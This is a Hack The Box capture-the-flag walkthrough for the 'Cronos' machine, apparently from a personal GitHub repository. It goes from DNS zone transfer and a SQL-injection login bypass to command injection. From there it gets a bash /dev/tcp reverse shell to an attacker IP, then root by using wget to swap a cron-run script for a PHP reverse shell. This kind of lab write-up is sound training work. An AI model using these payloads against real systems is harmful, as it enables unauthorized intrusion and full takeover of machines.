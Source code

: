 # Cronos

**Machine ip:** 10.10.10.13

## Enumeration
+ `sudo masscan -p1-65535,U:1-65535 --rate=1000 10.10.10.13 -e tun0 > ports`
+ `ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')`
+ `sudo nmap -Pn -sV -sC -p$ports 10.10.10.13`
+ `sudo nmap -Pn -sV -sC -sU -p$ports 10.10.10.13`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/91f25735-459a-4a75-a798-2c419bd4a7c1)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/e7764b71-bd50-4af5-ab88-80b1f69cbd8b)

+ dns enumeration: `nslookup`
```
└─$ nslookup
> server 10.10.10.13
Default server: 10.10.10.13
Address: 10.10.10.13#53
> 10.10.10.13
13.10.10.10.in-addr.arpa	name = ns1.cronos.htb.

```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/8878f5ed-c712-45c6-aa14-0b093ff5139c)

+ dns enumeration: `nslookup host [server]`
+ `nslookup 10.10.10.13 10.10.10.13`
```
└─$ nslookup 10.10.10.13 10.10.10.13
13.10.10.10.in-addr.arpa	name = ns1.cronos.htb.

```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/08c7ad57-ee86-4e75-8e75-e12dd33f9c64)

+ Zone transfer: `host -l <domain-name> <dns_server-address>`
+ `host -l cronos.htb 10.10.10.13`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/85af127e-788f-4388-960a-f43543698b49)


+ Zoner transfer: `dig axfr @10.10.10.13 cronos.htb`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/ac1ace97-a6ec-4bb8-958d-5d740aaf4e59)

+ `dig any @10.10.10.13 cronos.htb`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/cc415b9e-da19-489d-a4b8-8ca809bf085b)

+ Add domains into `/etc/hosts` file
```
echo "10.10.10.13 cronos.htb admin.cronos.htb ns1.cronos.htb www.cronos.htb" >> /etc/hosts
```

+ Enumerate subdomain:
```
gobuster dns -d cronos.htb -w /usr/share/wordlists/seclists/Discovery/DNS/namelist.txt
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/443694fe-6171-479f-8ff4-92d5bc986ca1)

+ Navigate to `http://admin.cronos.htb/`
+ Login bypass injecting `admin' or '`:`pass`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/9bcf5f5e-d294-4d8c-94c1-e7b104bbd065)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/4e8644a6-27b4-4344-89e3-1212103589d8)

+ Use `;` to inject command, and that works.

## Gainin Access

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/5933aa22-258b-4e2a-a2ec-dd75145e7892)

+ Start a netcat listener: `nc -lnvp 4444`
+ Inject reverse payload after `;`  `/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.18/4444 0>&1"` and execute.
+ Get shell.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/765ae797-f4f3-4efc-8602-2587e6aeba6a)


## Privilege Escalation

+ Check cronjobs: `cat /etc/crontab` on the target.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/2f5fd4a0-4895-4cbb-bc40-6ef8ece43146)

+ `cp /usr/share/webshells/php/php-reverse-shell.php shell.php` on your attack machine.
+ Change ip address and port number.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/b08c2273-d780-4622-9ed4-f50cd8f50d9b)

+ Start `python3 -m http.server` on the attack machine.

+ Transfer to the target.
+ `cd /var/www/laravel/` on the target.
+ `wget 10.10.14.18:8000/shell.php -O artisan` on the target.
+ `chmod +x artisan` on the target.

+ Start listener: `nc -lnvp 5555` on your attack machine.
+ Get root shell.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/bca0fd82-2a1b-4293-bbe0-8f697cba3cdd)


# References & Alternatives:
+ https://vvmlist.github.io/#cronos
+ https://0xdf.gitlab.io/2020/04/14/htb-cronos.html
+ https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/linux-boxes/cronos-writeup-w-o-metasploit
+ https://benheater.com/hackthebox-cronos/
+ https://alessandrocristofanilli.xyz/posts/htb-cronos/
+ https://systemweakness.com/htb-cronos-walkthrough-3f669386b681
+ https://dev.to/sshad0w/hack-the-box-writeup-cronos-21bn
+ https://www.noobsec.net/hackthebox/htb-cronos/
+ https://medium.com/cronos-htb-walkthough/cronos-htb-walkthrough-9ef91750726
+ https://sevenlayers.com/index.php/133-hackthebox-cronos-walkthrough
